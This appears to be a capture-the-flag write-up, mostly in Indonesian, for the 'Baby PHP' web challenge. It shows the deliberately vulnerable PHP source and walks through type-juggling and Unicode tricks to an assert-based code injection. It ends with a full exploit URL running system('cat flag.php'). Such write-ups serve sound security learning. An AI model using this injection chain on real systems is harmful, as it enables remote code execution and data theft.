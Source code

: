 # Baby PHP
---
**Points:** 109
**Solves:** 147/1035
**Category:** Web

PHP is a popular general-purpose scripting language that is especially suited to web development.

Fast, flexible and pragmatic, PHP powers everything from your blog to the most popular websites in the world.

[Can you untangle this mess?!](https://arcade.fluxfingers.net:1819/)
---

[Bahasa Indonesia](#bahasa-indonesia)

## English
TODO

## Bahasa Indonesia
Diberikan sebuah kode PHP seperti berikut:

```php
 <?php

require_once('flag.php');
error_reporting(0);


if(!isset($_GET['msg'])){
    highlight_file(__FILE__);
    die();
}

@$msg = $_GET['msg'];
if(@file_get_contents($msg)!=="Hello Challenge!"){
    die('Wow so rude!!!!1');
}

echo "Hello Hacker! Have a look around.\n";

@$k1=$_GET['key1'];
@$k2=$_GET['key2'];

$cc = 1337;$bb = 42;

if(intval($k1) !== $cc || $k1 === $cc){
    die("lol no\n");
}

if(strlen($k2) == $bb){
    if(preg_match('/^\d+＄/', $k2) && !is_numeric($k2)){
        if($k2 == $cc){
            @$cc = $_GET['cc'];
        }
    }
}

list($k1,$k2) = [$k2, $k1];

if(substr($cc, $bb) === sha1($cc)){
    foreach ($_GET as $lel => $hack){
        $$lel = $hack;
    }
}

$ b = "2";$a=" b";//;1=b

if($$a !== $k1){
    die("lel no\n");
}

// plz die now
assert_options(ASSERT_BAIL, 1);
assert("$bb == $cc");

echo "Good Job ;)";
// TODO
// echo $flag;   
```

Ada beberapa jebakan dalam soal ini. Pertama, perhatikan bahwa `preg_match('/^\d+＄/', $k2)` bukan menggunakan tanda dolar `$` melainkan `＄` atau karakter unicode untuk [full width dollar sign](http://graphemica.com/%EF%BC%84). Kedua, apabila kode sumber dituliskan menggunakan `highlight_file(__FILE__);` terlihat baris seperti ini:

![](trap.png)

Kode yang asli adalah `$ b = "2";$a=" b";//;1=b` menggunakan karakter unicode U+202E atau [right-to-left override](https://www.charbase.com/202e-unicode-right-to-left-override) pada nama variabel `$ b` dan juga pengisian `$a=" b"` sehingga ketika ditampilkan stringnya terbalik.

Tujuan kita adalah mencapai `echo "Good Job ;)";`. Terlihat bahwa terdapat `// echo $flag;` yang menandakan bahwa ada variabel bernama `$flag` tetapi tidak dituliskan ke output karena kode tersebut adalah komentar. Kita dapat memanfaatkan `assert("$bb == $cc");` untuk melakukan kontrol eksekusi kode apabila variabel `$bb` atau `$cc` dapat kita kontrol karena `assert` [melakukan evaluasi string seperti `eval`](http://php.net/manual/en/function.assert.php).

Variabel `$msg`, `$k1`, dan `$k2` dapat kita kontrol melalui GET `requests`. Apabila persyaratan memenuhi, kita juga dapat mengganti variabel `$cc` di tengah-tengah melalui `@$cc = $_GET['cc'];` dan juga membuat variabel dengan nama serta isi dari kita sendiri melalui `$$lel = $hack;` karena nilai dari `$lel` dan `$hack` diambil dari `foreach ($_GET as $lel => $hack)`.

Untuk mencapai *remote code execution*, berikut adalah beberapa hal yang harus dimanfaatkan dan dilakukan hingga mencapai `assert` dengan variabel yang kita kontrol.

### PHP Wrapper

```php
@$msg = $_GET['msg'];
if(@file_get_contents($msg)!=="Hello Challenge!"){
    die('Wow so rude!!!!1');
}
```

Selain *path* menuju berkas, fungsi `file_get_contents` juga dapat menerima [protokol dan *wrapper*](http://php.net/manual/en/wrappers.php). Sayangnya, sepertinya internet dimatikan sehingga `http://` menuju web yang kita kontrol yang berisi `Hello Challenge!` tidak dapat bekerja. Alternatifnya, kita dapat menggunakan [`data://`](http://php.net/manual/en/wrappers.data.php). Kita dapat menggunakan `msg=data://text/plain,Hello%20Challenge!` sebagai nilai dari `msg`.

### Strict Comparison

```
if(intval($k1) !== $cc || $k1 === $cc){
    die("lol no\n");
}
```

Perhatikan bahwa `$k1` diambil dari `$_GET['key1']` sehingga tipe data variabelnya adalah string. Perbandingan dengan variabel `$cc` menggunakan `strict comparison` (harus sama nilai dan tipe datanya). Variabel `$cc` berisi bilangan 1337 sehingga nilai dari $k1 bisa kita isi 1337. Perbandingan `$k1 === $cc` akan bernilai `false`.

### Loose Comparison

```php
if(strlen($k2) == $bb){
    if(preg_match('/^\d+＄/', $k2) && !is_numeric($k2)){
        if($k2 == $cc){
            @$cc = $_GET['cc'];
        }
    }
}

```

Variabel `$k2` tidak boleh berupa numerik tetapi harus sama dengan `$cc` yang berisi 1337. Perbandingan menggunakan `loose comparison` sehingga kita dapat mengisi `$k2` dengan string yang diawali 1337. Panjang string harus sesuai dengan nilai `$bb`, yaitu 42. Regex yang digunakan juga harus dipenuhi (ingat bahwa tanda dolar tersebut adalah jebakan, setelah 1337 kita harus memasukkan karakter unicode `＄`). Kita dapat menggunakan `1337%EF%BC%8400000000000000000000000000000000000` sebagai nilai `$k2` agar nilai `$cc` dapat kita kontrol.

### NULL Comparison

```php
if(substr($cc, $bb) === sha1($cc)){
    foreach ($_GET as $lel => $hack){
        $$lel = $hack;
    }
}
```

Nilai dari `$bb` adalah 42 dan variabel `$cc` dapat kita kontrol. Sepertinya sulit untuk memenuhi `substr($cc, $bb) === sha1($cc)` dengan cara biasa. Triknya adalah menggunakan array. Nilai dari `substr([], 42)` dan `sha1([])` adalah NULL sehingga perbandingan terpenuhi. Kita dapat mengatur nilai `$cc` menjadi array pada GET `request` sehingga kita dapat membuat variabel yang nama dan isinya dapat kita atur.

### Variable Variable

```php
$ b = "2";$a=" b";//;1=b

if($$a !== $k1){
    die("lel no\n");
}
```

Pada PHP, [*variable variable*](http://php.net/manual/en/language.variables.variable.php) dapat digunakan untuk pengambilan nilai dengan nama dinamis. Misal, pada contoh di atas, nilai dari `$$a` adalah `2`. Ingat bahwa sebelum `b` bukanlah spasi melainkan karakter unicode U+202E. Nilai dari `$k1` dapat kita kontrol melalui langkah sebelumnya sehingga cukup isi `$k1` dengan `2`.

### Remote Code Execution

```php
assert("$bb == $cc");
```

Variabel `$bb` dan `$cc` dapat kita kontrol tetapi `$cc` harus berupa array sehingga ketika dikonversi menjadi string akan bernilai `Array`. Sintaks yang digunakan harus benar sementara `== Array` akan menghasilkan `syntax error` ketika evaluasi. Triknya adalah menggunakan `;` dan komentar `//` pada `$bb`. Kita dapat menjalankan kode PHP apa saja. Untuk melakukan `remote code execution`, kita dapat menggunakan fungsi seperti `system`. Contoh, untuk membaca berkas `flag.php`, nilai `$bb` dapat kita isi dengan `system('cat flag.php'); // `.

### Final Exploit

Berikut adalah salah satu `request` yang dapat dilakukan untuk mendapatkan flag.

[view-source:https://arcade.fluxfingers.net:1819/?msg=data://text/plain,Hello%20Challenge!&key1=1337&key2=1337%EF%BC%8400000000000000000000000000000000000&cc[]=a&k1=2&bb=system(%27cat%20flag.php%27);%20//%20%22](view-source:https://arcade.fluxfingers.net:1819/?msg=data://text/plain,Hello%20Challenge!&key1=1337&key2=1337%EF%BC%8400000000000000000000000000000000000&cc[]=a&k1=2&bb=system(%27cat%20flag.php%27);%20//%20%22)
